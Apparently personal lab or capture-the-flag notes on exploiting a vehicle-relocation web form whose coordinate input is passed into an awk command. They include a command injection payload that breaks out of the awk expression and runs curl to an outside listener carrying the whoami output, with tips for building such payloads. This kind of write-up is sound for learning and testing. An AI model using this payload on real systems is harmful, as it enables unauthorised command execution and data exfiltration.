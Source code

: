 - Get command execution
- If feasable, get reverse shell

![[Pasted image 20250406162547.png]]

# Information
---
- Enter `registration` number and new `coordinates` to move that vehicle to new location
	- ![[Pasted image 20250406162756.png]]
- Shows executed command:
	 ![[Pasted image 20250406162817.png]]


Exploitation
---
- Looks like a formula using `awk` utility:
	- `awk 'BEGIN {print sqrt( ((400-500)^2) + (( 105 - 500 )^2) )}'`
- Our input is `500, 500` in this case
- **Payload:**
- ``
	```bash
	500 )^2) )}';curl http://172.19.0.1:9001/$(whoami);#
	```
![[Pasted image 20250406165955.png]]
```

- ==**Note: While making payloads, just copy the whole remaining thing that comes after the input to start the payload with, here `500 )^2) )}'`==**

# Shell
---
![[Pasted image 20250406170224.png]]